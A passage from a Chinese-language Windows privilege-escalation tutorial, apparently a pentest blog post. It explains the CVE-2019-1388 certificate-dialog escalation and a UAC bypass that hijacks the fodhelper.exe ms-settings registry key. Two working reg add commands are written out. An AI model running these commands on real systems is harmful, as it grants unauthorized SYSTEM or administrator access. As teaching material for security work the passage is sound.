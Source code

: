 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200130100211.png-water_print](assets/1699411459-5be94991c426a26ca4bec74a201c7f14.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200130100211.png-water_print")

还有一个特别典型的例子就是：`CVE-2019-1388` 证书提权漏洞。

通过点击「展示证书发行者的详细信息」链接会触发 `consent.exe` 以 `SYSTEM` 权限打开浏览器访问此链接，然后此浏览器就会有 `SYSTEM` 权限。通过保存该浏览页面，会弹出微软的资源管理器，在资源管理器中邮件打开 `cmd.exe` 程序，就会继承浏览器的 `SYSTEM` 权限，由此就完成了由普通用户到 `NT AUTHORITY\SYSTEM` 用户的提权。

### [](#73-%E5%88%A9%E7%94%A8%E6%B3%A8%E5%86%8C%E8%A1%A8-bypass-uac)7.3 利用注册表 bypass UAC

一些高权限的程序会调用 `HKCR:\` 下的键值。

流程：

1.  通过修改 `HKCU:\` 下面的键值同步修改 `HKCR:\` 下的键值。
2.  把原本的键值改为 `cmd.exe` 等 shell 程序。
3.  如果高权限的程序在运行过程中调用此处被修改过的键值，就会以高权限启动我们设定的程序。
4.  如此便实现了 Bypass UAC。

常见的有：eventvwr.exe、fodhelper.exe，下面以 fodhelper.exe 为例：

-   Path：`C:\Windows\system32\fodhelper.exe`
-   REG：`HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f<br>reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f<br>``` |

在 msf 中已经集成了相应的利用方式。

### [](#74-uacme)7.4 UACME
